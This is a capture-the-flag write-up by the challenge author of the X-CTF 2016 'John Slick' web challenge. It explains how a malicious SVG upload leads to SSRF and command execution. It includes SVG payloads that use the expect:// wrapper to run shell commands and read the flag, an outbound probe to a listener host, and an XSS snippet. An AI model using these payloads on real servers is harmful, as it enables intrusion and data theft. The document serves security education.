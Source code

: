 ```yaml
---
layout: post
title: X-CTF Finals 2016 - John Slick (Web 25)
modified:
categories: blog
excerpt: ""
tags: []
image:
  feature:
share: true
comments: true
date: 2016-06-22T22:32:53+02:00
---
```


X-CTF is a capture the flag competition in Singapore organized by NUS Greyhats. The on-site finals took place on Saturday, 18 June 2016. This is another one of the web challenge I wrote for the finals. All of the web challenges I wrote are done with the same front-end UI to make things simpler.

# JohnSlick
>**Points:** 25  
**Category:** Web  
**Description:**  Flag is on the server. Get a reverse shell :). Be nice, don't break the server. [http://bg3.spro.ink:8081](http://bg3.spro.ink:8081)

---

After registration and logging in, there's an upload feature that allows you to upload files to the server. However, there seems to be a check to ensure that only certain file types are allowed, namely, GIF, PNG, JPG and SVG.

![](/resources/images/x-ctf/johnslick_upload.png)

If you tried uploading a GIF, PNG or JPG file, you'll find that the image would be successfully uploaded and displayed.

![](/resources/images/x-ctf/johnslick_img.png){: width="400px"}

However, if you tried some random SVG file like the following, you'll get a different response instead. This is meant to be a hint to the participants.

If you upload an SVG file with the following contents:
{% highlight html linenos %}
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <rect x="0" y="150" height="10" width="300" style="fill: #000000"/>
</svg>
{% endhighlight %}

You should get a feedback saying: `Secret mode activated:`.

We can now be positively certain that the challenge has to do with a SVG file, the next step should then be pretty obvious. 
There are only a few common attacks that could be done with the use of a SVG file:

1. XSS due to the browser rendering the SVG file (`<script>alert(1)</script>` in an SVG element).
2. DOS attack due to a resource exhaustion similar to a billion laughs attack.
3. XXE attack due to the server parsing the SVG.

**Attack #1** would be possible if the SVG file was reflected to the user or some sort of back-end which would be viewed by an admin. However, we did not mention anything about an admin viewing anything, so this attack could have been ruled out easily.

**Attack #2** could be possible but would not allow for a reverse shell, which is our end goal.

**Attack #3** seems the most probable in this case, maybe an XXE + SSRF exploit that could allow us to run arbitrary code on the server's backend.

Looking up `SVG XXE SSRF` on Google shows a few attacks that have been done previously. In fact recently on hackerone.com there is a [publicly disclosed bug](https://hackerone.com/reports/142709) that is similar.

Following this lead, we can try an SVG payload like the following:
{% highlight html linenos %}
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="http://nusgreyhats.org:800/"></image>
</svg>
{% endhighlight %}

We then open a netcat instance on the remote server to watch for any attempts to connect to it. Upon uploading the SVG file, we see that no connections were made to our netcat instance. However, if you solved the web20 challenge, similar to [it](http://quanyang.github.io/x-ctf-finals-2016-john-sick-web-20/), certain URI scheme has been disabled.

We could however, try out all the URI schemes to see if any of them are enabled. 

The [expect](http://php.net/manual/en/wrappers.expect.php) wrapper though not enabled by default, would allow us to easily obtain a reverse shell. Trying out a simple exploit like the following could easily verify that the expect scheme is enabled:
{% highlight html linenos %}
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
{% endhighlight %}

![](/resources/images/x-ctf/johnslick_svg.png)

We see that our `ls` payload has successfully executed. We can now easily obtain a reverse shell, or to simply read the flag directly.

{% highlight html linenos %}
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls /"></image>
</svg>
{% endhighlight %}

![](/resources/images/x-ctf/johnslick_cat.png)

And finally,
{% highlight html linenos %}
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://cat /flag_is_really_here.xxe"></image>
</svg>
{% endhighlight %}

![](/resources/images/x-ctf/johnslick_flag.png)

And we have our flag: `XCTF{XXE_IS_PR0BABLY_NOT_XTRA_XTRA_E@SY}`!

This challenge might not be exactly realistic as it took me some hacking in order to get the SSRF vulnerability to work correctly. However, this challenge is meant to introduce the idea of XXE attacks to participants and that XXE + SSRF attack could possibly lead to RCE as seen in the recent imagemagick vulnerability.